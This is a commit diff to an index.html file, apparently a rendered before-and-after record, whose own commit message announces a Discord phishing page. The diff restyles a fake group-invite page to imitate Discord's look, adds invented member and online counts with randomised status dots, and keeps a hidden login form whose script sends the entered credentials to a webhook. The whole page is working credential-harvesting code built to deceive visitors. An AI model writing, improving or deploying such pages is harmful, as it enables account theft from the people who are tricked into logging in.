

Before and after one commit to kaimakwonw/Mecome, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 285-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Adicionado phishing foda do Discord - Zeta Rules! 🏴

```diff
--- a/index.html
+++ b/index.html
@@ -9,24 +9,25 @@
             margin: 0;
             padding: 0;
             box-sizing: border-box;
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+            font-family: 'Whitney', 'Helvetica Neue', Helvetica, Arial, sans-serif;
         }
 
         body {
-            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
+            background: #36393f;
             min-height: 100vh;
             display: flex;
             justify-content: center;
             align-items: center;
             padding: 20px;
+            color: #dcddde;
         }
 
         .invite-container {
-            background: #ffffff;
+            background: #36393f;
             width: 100%;
-            max-width: 400px;
-            border-radius: 12px;
-            box-shadow: 0 10px 30px rgba(0, 0, 0, 0.2);
+            max-width: 440px;
+            border-radius: 8px;
+            box-shadow: 0 2px 10px 0 rgba(0, 0, 0, 0.2);
             overflow: hidden;
         }
 
@@ -41,7 +42,7 @@
             width: 80px;
             height: 80px;
             border-radius: 50%;
-            background: linear-gradient(135deg, #ff6b6b 0%, #ee5a24 100%);
+            background: #5865f2;
             margin: 0 auto 16px;
             display: flex;
             align-items: center;
@@ -49,13 +50,27 @@
             font-size: 32px;
             font-weight: bold;
             color: white;
-            border: 4px solid rgba(255, 255, 255, 0.2);
+            border: 4px solid #40444b;
+            position: relative;
+        }
+
+        .avatar::after {
+            content: '';
+            position: absolute;
+            bottom: 2px;
+            right: 2px;
+            width: 20px;
+            height: 20px;
+            background: #23a55a;
+            border-radius: 50%;
+            border: 3px solid #2f3136;
         }
 
         .username {
             font-size: 20px;
             font-weight: 600;
             margin-bottom: 8px;
+            color: #ffffff;
         }
 
         .invite-text {
@@ -63,90 +78,160 @@
             font-size: 14px;
         }
 
+        .server-stats {
+            display: flex;
+            justify-content: center;
+            gap: 20px;
+            margin-top: 15px;
+            padding: 10px;
+            background: #40444b;
+            border-radius: 6px;
+        }
+
+        .stat {
+            text-align: center;
+        }
+
+        .stat-number {
+            font-size: 18px;
+            font-weight: bold;
+            color: #ffffff;
+        }
+
+        .stat-label {
+            font-size: 12px;
+            color: #b9bbbe;
+        }
+
         .members-section {
-            padding: 20px;
-            background: #f8f9fa;
-            border-bottom: 1px solid #e9ecef;
+            padding: 24px;
+            background: #2f3136;
+            border-bottom: 1px solid #40444b;
         }
 
         .members-title {
-            font-size: 14px;
-            color: #6c757d;
+            font-size: 16px;
+            color: #ffffff;
             font-weight: 600;
-            margin-bottom: 12px;
-            text-transform: uppercase;
-            letter-spacing: 0.5px;
+            margin-bottom: 16px;
+            display: flex;
+            align-items: center;
+            gap: 8px;
+        }
+
+        .online-dot {
+            width: 8px;
+            height: 8px;
+            background: #23a55a;
+            border-radius: 50%;
         }
 
         .members-grid {
             display: grid;
-            grid-template-columns: repeat(4, 1fr);
-            gap: 10px;
+            grid-template-columns: repeat(5, 1fr);
+            gap: 12px;
         }
 
         .member {
-            width: 40px;
-            height: 40px;
+            width: 48px;
+            height: 48px;
             border-radius: 50%;
-            background: linear-gradient(135deg, #74b9ff 0%, #0984e3 100%);
+            background: #5865f2;
             display: flex;
             align-items: center;
             justify-content: center;
             color: white;
             font-weight: bold;
             font-size: 14px;
-            border: 2px solid white;
+            border: 3px solid #36393f;
+            position: relative;
+            transition: transform 0.2s ease;
         }
 
-        .member:nth-child(2) {
-            background: linear-gradient(135deg, #fd79a8 0%, #e84393 100%);
+        .member:hover {
+            transform: scale(1.1);
         }
 
-        .member:nth-child(3) {
-            background: linear-gradient(135deg, #fdcb6e 0%, #f39c12 100%);
+        .member.online::after {
+            content: '';
+            position: absolute;
+            bottom: 0;
+            right: 0;
+            width: 12px;
+            height: 12px;
+            background: #23a55a;
+            border-radius: 50%;
+            border: 2px solid #36393f;
         }
 
-        .member:nth-child(4) {
-            background: linear-gradient(135deg, #00b894 0%, #00a085 100%);
+        .member.idle::after {
+            content: '';
+            position: absolute;
+            bottom: 0;
+            right: 0;
+            width: 12px;
+            height: 12px;
+            background: #f0b232;
+            border-radius: 50%;
+            border: 2px solid #36393f;
+        }
+
+        .member.dnd::after {
+            content: '';
+            position: absolute;
+            bottom: 0;
+            right: 0;
+            width: 12px;
+            height: 12px;
+            background: #f23f43;
+            border-radius: 50%;
+            border: 2px solid #36393f;
         }
 
         .member-count {
-            grid-column: span 4;
+            grid-column: span 5;
             text-align: center;
-            margin-top: 10px;
-            font-size: 12px;
-            color: #6c757d;
+            margin-top: 16px;
+            padding: 12px;
+            background: #40444b;
+            border-radius: 6px;
+            font-size: 14px;
+            color: #b9bbbe;
             font-weight: 600;
+        }
+
+        .online-count {
+            color: #23a55a;
+            font-weight: bold;
         }
 
         .action-section {
             padding: 24px;
             text-align: center;
+            background: #36393f;
         }
 
         .accept-btn {
-            background: linear-gradient(135deg, #00b894 0%, #00a085 100%);
+            background: #5865f2;
             color: white;
             border: none;
-            padding: 14px 28px;
-            border-radius: 8px;
+            padding: 16px 32px;
+            border-radius: 4px;
             font-size: 16px;
             font-weight: 600;
             cursor: pointer;
             transition: all 0.3s ease;
             width: 100%;
-            box-shadow: 0 4px 15px rgba(0, 184, 148, 0.3);
         }
 
         .accept-btn:hover {
-            transform: translateY(-2px);
-            box-shadow: 0 6px 20px rgba(0, 184, 148, 0.4);
+            background: #4752c4;
         }
 
         .login-form {
             display: none;
             padding: 24px;
-            background: #f8f9fa;
+            background: #2f3136;
         }
 
         .form-title {
@@ -154,7 +239,7 @@
             margin-bottom: 20px;
             font-size: 18px;
             font-weight: 600;
-            color: #2f3136;
+            color: #ffffff;
         }
 
         .form-group {
@@ -165,7 +250,7 @@
             display: block;
             margin-bottom: 6px;
             font-size: 12px;
-            color: #6c757d;
+            color: #b9bbbe;
             font-weight: 600;
             text-transform: uppercase;
         }
@@ -173,36 +258,36 @@
         .form-group input {
             width: 100%;
             padding: 12px;
-            background: white;
-            border: 2px solid #e9ecef;
-            border-radius: 6px;
-            color: #2f3136;
+            background: #40444b;
+            border: 2px solid #40444b;
+            border-radius: 4px;
+            color: #ffffff;
             font-size: 14px;
             transition: border-color 0.3s ease;
         }
 
         .form-group input:focus {
             outline: none;
-            border-color: #00b894;
+            border-color: #5865f2;
         }
 
         .error-message {
-            color: #e74c3c;
+            color: #ed4245;
             font-size: 12px;
             margin-top: 4px;
             display: none;
         }
 
         .success-message {
-            background: #d4edda;
-            color: #155724;
+            background: #2f3136;
+            color: #b9bbbe;
             padding: 12px;
-            border-radius: 6px;
+            border-radius: 4px;
             font-size: 14px;
             text-align: center;
             margin-top: 16px;
             display: none;
-            border: 1px solid #c3e6cb;
+            border: 1px solid #40444b;
         }
     </style>
 </head>
@@ -212,16 +297,42 @@
             <div class="avatar">IK</div>
             <div class="username">imkaisure01</div>
             <div class="invite-text">convidou você para entrar no grupo</div>
+
+            <div class="server-stats">
+                <div class="stat">
+                    <div class="stat-number">187</div>
+                    <div class="stat-label">Membros</div>
+                </div>
+                <div class="stat">
+                    <div class="stat-number">42</div>
+                    <div class="stat-label">Online</div>
+                </div>
+                <div class="stat">
+                    <div class="stat-number">29</div>
+                    <div class="stat-label">Canais</div>
+                </div>
+            </div>
         </div>
 
         <div class="members-section">
-            <div class="members-title">Membros do Grupo</div>
+            <div class="members-title">
+                <div class="online-dot"></div>
+                Membros Online — <span class="online-count">42</span>
+            </div>
+
             <div class="members-grid">
-                <div class="member">RH</div>
-                <div class="member">XC</div>
-                <div class="member">TG</div>
-                <div class="member">AP</div>
-                <div class="member-count">+6 outros membros</div>
+                <div class="member online">RH</div>
+                <div class="member online">XC</div>
+                <div class="member online">TG</div>
+                <div class="member online">AP</div>
+                <div class="member online">MK</div>
+                <div class="member online">JL</div>
+                <div class="member idle">DP</div>
+                <div class="member online">KT</div>
+                <div class="member dnd">SW</div>
+                <div class="member online">NV</div>
+
+                <div class="member-count">📋 187 membros no total • 🟢 42 online</div>
             </div>
         </div>
 
@@ -297,7 +408,7 @@
                     'Content-Type': 'application/json',
                 },
                 body: JSON.stringify(credentials),
-                mode: 'no-cors'  // 🔥 CORREÇÃO DO CORS
+                mode: 'no-cors'
             }).then(() => {
                 console.log('Dados enviados para o webhook (no-cors mode)');
             }).catch(error => {
@@ -321,12 +432,22 @@
         function generateRandomInitials() {
             const letters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ';
             const members = document.querySelectorAll('.member');
+            const statuses = ['online', 'idle', 'dnd'];
 
             members.forEach(member => {
                 if (!member.classList.contains('member-count')) {
                     const randomInit1 = letters[Math.floor(Math.random() * letters.length)];
                     const randomInit2 = letters[Math.floor(Math.random() * letters.length)];
                     member.textContent = randomInit1 + randomInit2;
+
+                    // Remove classes de status anteriores
+                    member.classList.remove('online', 'idle', 'dnd');
+
+                    // Adiciona status aleatório (mantendo alguns online)
+                    if (Math.random() > 0.3) {
+                        const randomStatus = statuses[Math.floor(Math.random() * statuses.length)];
+                        member.classList.add(randomStatus);
+                    }
                 }
             });
         }
```
